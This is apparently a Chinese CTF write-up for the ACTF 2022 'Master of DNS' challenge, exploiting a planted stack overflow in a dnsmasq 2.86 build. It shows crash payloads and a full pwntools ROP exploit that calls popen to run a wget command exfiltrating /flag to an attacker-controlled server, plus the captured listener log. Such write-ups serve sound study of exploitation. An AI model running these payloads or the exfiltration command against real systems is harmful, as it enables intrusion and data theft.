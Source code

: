 ```yaml
---
title: ACTF 2022 Pwn Master of DNS
categories:
- CTF/Pwn
tags: 
---
```


> 更新中...

![image](https://xuanxuanblingbling.github.io/assets/pic/dns/actf.png)

![image](https://xuanxuanblingbling.github.io/assets/pic/dns/dns.png)

附件：[dns.zip](https://xuanxuanblingbling.github.io/assets/attachment/actf/dns.zip)

## 确认软件

题目是个DNS服务器:

- PC中常见[BIND](https://www.isc.org/bind/)
- IoT中常见[Dnsmasq](https://thekelleys.org.uk/dnsmasq/doc.html)

虽然题目把具体的dns软件名隐去了，但通过2.86的版本号还是能很明显的看出来，软件为[dnsmasq-2.86.tar.gz](https://thekelleys.org.uk/dnsmasq/dnsmasq-2.86.tar.gz)：

```c
➜  ./dns --help
Usage: dns [options]

➜  ./dns -v    
Dns version 2.86
```

对于给出真实软件的CTF题目，漏洞可能是真实存在的1day或者0day，也有可能是出题人埋进去的一个漏洞。对于dnsmasq，能找到一些堆溢出引发的DoS，以及对较老的2.78版本（2017年）的RCE，但是没有找到新版本可RCE的漏洞或者披露文章，所以看起来埋洞的可能性更大。

- [Behind the Masq: Yet more DNS, and DHCP, vulnerabilities](https://security.googleblog.com/2017/10/behind-masq-yet-more-dns-and-dhcp.html)
- [https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=dnsmasq](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=dnsmasq)
- [Dnsmasq < 2.78 - Heap Overflow](https://www.exploit-db.com/exploits/42942)

## 漏洞挖掘

首先进行基本检查，x86，无符号，没canary，可以猜测大概率是栈溢出：

```c
➜  file ./dns
./dns: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), stripped
➜  checksec ./dns
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

虽然给出的二进制无符号，但其也是一款开源软件，因此基本不需要逆向。对于本题，一款有源码的dns软件，我们有四种角度，或者说手段，来处理他、认识他：

- 源码
- 二进制
- gdb调试
- 流量调试

### 二进制比对

```
➜  strings ./dns | grep GCC
GCC: (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0
➜  gcc --version
gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0
```

```
CFLAGS        = -m32 -fno-stack-protector -Wall -W 
LDFLAGS       = -m32 -no-pie 
```

```
➜  make
➜  file ./src/dnsmasq 
./src/dnsmasq: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), not stripped
```

![image](https://xuanxuanblingbling.github.io/assets/pic/dns/bindiff1.png)

![image](https://xuanxuanblingbling.github.io/assets/pic/dns/bindiff2.png)

![image](https://xuanxuanblingbling.github.io/assets/pic/dns/memcpy.png)

> dnsmasq-2.86/src/rfc1035.c

```c
int extract_name(struct dns_header *header, size_t plen, unsigned char **pp, 
		 char *name, int isExtract, int extrabytes)
```

### gdb调试

```
.text:0804F435                 push    [ebp+n]         ; n
.text:0804F438                 push    [ebp+src]       ; src
.text:0804F43B                 lea     eax, [ebp+dest]
.text:0804F441                 push    eax             ; dest
.text:0804F442                 mov     ebx, edx
.text:0804F444                 call    _memcpy
```

```
➜  ./dns -C ./dns.conf 
➜  ps -ef | grep dns
xuanxuan    6363    1914  0 08:06 ?        00:00:00 ./dns -C ./dns.conf
```

```
➜  gdb --pid 6363  
ptrace: Operation not permitted.
➜  sudo gdb --pid 6363
pwndbg> b * 0x804F444
Breakpoint 1 at 0x804f444
pwndbg> c

```

```
➜  dig @127.0.0.1 -p 9999 baidu.com
```

```
Breakpoint 1, 0x0804f444 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────[ DISASM ]───────────────────────────────────
 ► 0x804f444    call   memcpy@plt                     <memcpy@plt>
        dest: 0xffbfc2f7 ◂— 0x9bea000
        src: 0x9f075b0 ◂— 'baidu.com'
        n: 0xa
```


```
➜  dig @127.0.0.1 -p 9999 baidu.comaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

dig: 'baidu.comaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa' 
is not a legal IDNA2008 name (domain label longer than 63 characters), use +noidnin
```

### 流量调试


```
➜  dig @127.0.0.1 -p 9999 baidu.com
```

![image](https://xuanxuanblingbling.github.io/assets/pic/dns/wireshark.jpeg)

```
0000   b0 6b 01 20 00 01 00 00 00 00 00 01 05 62 61 69
0010   64 75 03 63 6f 6d 00 00 01 00 01
```

可以用scapy，但是更喜欢彻底控制每一个字节


```python
from pwn import *

io = remote("127.0.0.1",9999,typ='udp')

head    = bytes.fromhex("000001200001000000000001")
payload = (b'\x3f'+b'a'*0x3f)*16 + b'\x00'
end     = bytes.fromhex("00010001")

io.send(head + payload + end)
```

```
pwndbg> c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x61616161 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────── ───────[ REGISTERS ]───────────────────────────
*EBX  0x612e6161 ('aa.a')
*ECX  0xffb99b00 ◂— 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
*EDX  0xffb997a7 ◂— 0x61616161 ('aaaa')
 EDI  0xf7f35000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1ead6c
 ESI  0x940a9c0 ◂— 0x2910
*EBP  0x61616161 ('aaaa')
*ESP  0xffb99b30 ◂— 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
*EIP  0x61616161 ('aaaa')
───────────────────────[ DISASM ]────────────────────────────
Invalid address 0x61616161
```


## 漏洞利用

```
rop：

1. 寻找fd
2. 修栈
3. execl popen

popen 字符串

查看控制流劫持时状态：

- 只在堆上栈上
- ecx ebx寄存器有用

找到popen gadget很可惜，差一点

想办法交换，然后找gadget，可以add eax，edx

但是不能把eax变0，想到加法

但是edx指向的栈空间之后会被使用，所以将cmd拼到rop后，最终完成

注意不能有空字节，不能有0x2e，所以想rop只能出在32位上了
```

```python
from pwn import *
context(log_level='debug')

io = remote("59.63.224.108",9999,typ='udp')

vps = b"127.0.0.1"
cmd = b'wget `echo -e "%s"`/`cat /flag`' % (vps.replace(b'.',b'\\x2e'))

# 0x08059d44 : pop eax ; ret
# 0x08094d60 : add eax, 0x11038 ; nop ; pop ebp ; ret
# 0x0804b639 : add eax, edx ; add esp, 0x10 ; pop ebx ; pop ebp ; ret
# 0x0807ec72 : pop edx ; ret

rop  = p32(0x08059d44)      # pop eax ; ret
rop += p32(0xfffef38d)      # 0xfffef38d + 0x11038 = 0x3c5, eax = edx + 0x3c5, eax will point to cmd 
rop += p32(0x08094d60)      # add eax, 0x11038 ; nop ; pop ebp ; ret
rop += p32(0x11223344)      # padding
rop += p32(0x0804b639)      # add eax, edx ; add esp, 0x10 ; pop ebx ; pop ebp ; ret
rop += p32(0x11223344) * 6  # padding
rop += p32(0x0807ec72)      # pop edx ; ret
rop += p32(0x0809C7B2)      # string r
rop += p32(0x08071802)      # push edx(r) ; push eax(cmd) ; call popen

assert(len(rop) < 63)
assert(len(cmd) < 59)

payload   = (b'\x3f'+b'a'*0x3f) * 14
payload  +=  b'\x04'+b'a'*4
payload  +=  b'\x3f'+rop.ljust(0x3f,b'a')
payload  +=  chr(len(cmd)).encode() + cmd
payload  +=  b'\x00'

head = bytes.fromhex("000001200001000000000001")
end  = bytes.fromhex("00010001")
io.send(head+payload+end)
```


```
ubuntu@VM-16-6-ubuntu:~$ sudo nc -l 80
GET /ACTF%7Bd0M@1n_Po1nt3rs_aR3_VuLn3rab1e_1d7a90a63039831c7fcaa53b766d5b2d!!!!!%7D HTTP/1.1
User-Agent: Wget/1.20.3 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Connection: Keep-Alive
```


```
ACTF{d0M@1n_Po1nt3rs_aR3_VuLn3rab1e_1d7a90a63039831c7fcaa53b766d5b2d!!!!!}
```